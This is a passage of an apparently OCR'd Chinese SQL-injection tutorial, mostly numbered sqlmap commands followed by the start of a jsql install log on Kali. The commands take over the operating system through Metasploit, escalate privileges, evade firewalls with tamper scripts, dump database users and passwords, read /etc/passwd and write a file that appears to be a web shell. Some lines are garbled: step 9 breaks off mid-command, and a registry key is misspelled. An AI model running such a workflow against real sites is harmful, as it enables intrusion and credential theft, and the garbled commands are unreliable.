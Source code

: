 ```bash
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```
<a name="wrYPT"></a>
### 三、简要学习各种注入工具的使用指南
**1、jsql工具安装使用**
```bash
┌──(root💀kali)-[~/hackbar]
└─# apt-get -f install jsql
正在读取软件包列表... 完成
正在分析软件包的依赖关系树
正在读取状态信息... 完成
下列【新】软件包将被安装：
  jsql
升级了 0 个软件包，新安装了 1 个软件包，要卸载 0 个软件包，有 1573 个软件包未被升级。
需要下载 2,500 B 的归档。
解压缩后会消耗 9,216 B 的额外空间。
获取:1 https://mirrors.aliyun.com/kali kali-rolling/main amd64 jsql all 0.82-0kali2 [2,500 B]
已下载 2,500 B，耗时 2秒 (1,099 B/s)
正在选中未选择的软件包 jsql。
```